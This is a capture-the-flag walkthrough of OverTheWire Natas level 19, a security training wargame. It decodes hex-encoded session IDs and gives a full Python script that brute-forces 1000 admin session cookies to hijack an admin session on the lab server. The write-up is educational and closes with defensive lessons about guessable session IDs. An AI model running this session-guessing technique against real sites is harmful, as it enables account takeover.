




# OverTheWire - Natas - Level 19

[OverTheWire](https://overthewire.org) offers a series of "wargames" that teach
security skills. From their website:

> Natas teaches the basics of serverside web-security.

## Challenge Overview

After discovering the `natas19` password in the previous challenge, it can be
used to log into http://natas19.natas.labs.overthewire.org:



## Initial Analysis

This challenge page looks very similar to the previous level, and it has new
banner text that says:

> **This page uses mostly the same code as the previous level, but session IDs are no longer sequential...**

The description has now been slightly updated to read:

> Please login with your admin account to retrieve credentials for natas20.

There's still a form with a pair of Username and Password input boxes, plus a
Login button.

Notably there is no longer a `View sourcecode` link!

## Approach Strategy

1. The previous challenge used cookies, so look at those both before and (more
   likely) after entering credentials
1. Figure it out from there!

## Step-by-Step Solution

The first thing to do is open the Developer (F12) Tools in the browser and look
at the cookies:



There are only two cookies and their domain is `.overthewire.org` - these are
the cookies for logging into the challenge, and not specific to this challenge
itself.

The next step is to try to log in with `admin` and `pencil`:



Clicking the `Login` button submits these credentials and now there is a new
`PHPSESSID` cookie



Oh boy. That's a big session ID. The previous challenge was about trying session
IDs between 1 and 640, but this one looks huge!

### Session ID Analysis

The first time the form was submitted, the session ID is `3535362d61646d696e`.
If the cookie is deleted and the form re-submitted with blank username and
password, the session ID is `3336382d`, then `3230322d`, then `3130342d`. There
is some kind of pattern to these session IDs!

Looking at these short session IDs, they consist of:

- the digit `3`, followed by something else
- the digit `3`, followed by something else
- the digit `3`, followed by something else
- the digit `2`, followed by `d`

Everything is a digit, except for that `d` at the end, so this is probably
hexadecimal. If we remember from ASCII-ology 101, all the digits have a
hexadecimal code that starts with `3`! So these session IDs, translated from
hexadecimal to their readable values, are:

- `3336382d`: `368-`
- `3230322d`: `202-`
- `3130342d`: `104-`

This is very interesting. Translating that original `admin` / `pencil` session
ID from hexadecimal to readable values gives:

- `3535362d61646d696e`: `556-admin`

Aha! The session ID is a random three digit code, then a dash, and then the
username. So to find an active admin session only requires looking through 1000
different session IDs.

> Note: there is a bug/feature in the challenge where if the three digit code is
> less than 100, it will not have leading zeroes. In other words, the value `1`
> is `31` (not 001 / `303031`), the value 17 is `3137` (not 017 / `303137`),
> etc.

The `PHPSESSID` could be manipulated through the Developer Tools in the browser,
but 1000 session IDs is a lot to check manually. This is something that needs to
be automated: and this can be a very big leap for non-developers.

### Automate the Process

The first step is to decide what technology to use. This could be done with a
shell script and the `curl` command - it would be fairly straightforward with
a `grep` command to look at the responses. However, in previous challenges some
Python scripts were written, and those scripts can be re-used here.

It's best to figure out the steps needed using "pseudocode":

1. Get the `natas19` username and password that are needed to call the web
   server
2. Loop over each of the 1000 PHPSESSID cookies
3. Call the web server with an HTTP request duplicating what happens when the
   page is displayed
4. Check the response from the web server. If it contains "You are logged in as
   a regular user" then continue to the next PHPSESSID. Otherwise print the
   response and stop (this catches both the admin output as well as errors).

#### Step 1: Credentials

Although the password could be stored in the code, it's poor form to publish
passwords for challenges, so for this demonstration the password must be
entered by the user. In Python this looks like:

```python
import getpass

password = getpass.getpass(prompt='Enter password for natas19: ')
```

#### Step 2: Loop over the PHPSESSID values

```python
for i in range(1000):
```

#### Step 3: Web Server Request

```python
import requests

# Convert to hex string: 0 = 30, 1 = 31, 17 = 3137, 124 = 313234, etc
i_hexed = ''.join(f"{ord(digit):02x}" for digit in str(i))
# Append the hex for "-admin": 2d61646d696e
session_id = i_hexed + '2d61646d696e'

print(f'Trying { i }: PHPSESSID={ session_id }')
response = requests.get('http://natas19.natas.labs.overthewire.org/index.php', auth=("natas19", password), cookies={ "PHPSESSID": session_id })
```

#### Step 4: Response Handling

```python
if 'You are logged in as a regular user' not in response.text:
    print(response.text)
    break
```

And that's it! Bringing it all together:

```python
import getpass
import requests

#### Step 1: Credentials
password = getpass.getpass(prompt='Enter password for natas19: ')

#### Step 2: Loop over the PHPSESSID values
for i in range(1000):
    #### Step 3: Web Server Request
    # Convert to hex string: 0 = 30, 1 = 31, 17 = 3137, 124 = 313234, etc
    i_hexed = ''.join(f"{ord(digit):02x}" for digit in str(i))
    # Append the hex for "-admin": 2d61646d696e
    session_id = i_hexed + '2d61646d696e'

    print(f'Trying { i }: PHPSESSID={ session_id }')
    response = requests.get('http://natas19.natas.labs.overthewire.org/index.php', auth=("natas19", password), cookies={ "PHPSESSID": session_id })

    #### Step 4: Response Handling
    if 'You are logged in as a regular user' not in response.text:
        print(response.text)
        break
```

Running this command, and waiting for many HTTP requests, produces the
`natas20` password.

## Key Takeaways

- It's important to never trust user-controlled data
- It's secure to store session data on the server, but the session ID must not
  be guessable

## Beyond the Challenge

It's always a good idea to think about other solutions.

The Python code above will work, but there is a lot of room for improvement. It
is fine for a "one off" challenge, but refactoring the code would make it better
and perhaps more re-usable. As an exercise the file
[solution.py](files/level_19/solution.py):

- sets up constants for things like the URL and password characters
- breaks the code into small single-purpose functions
- adds error handling and logging
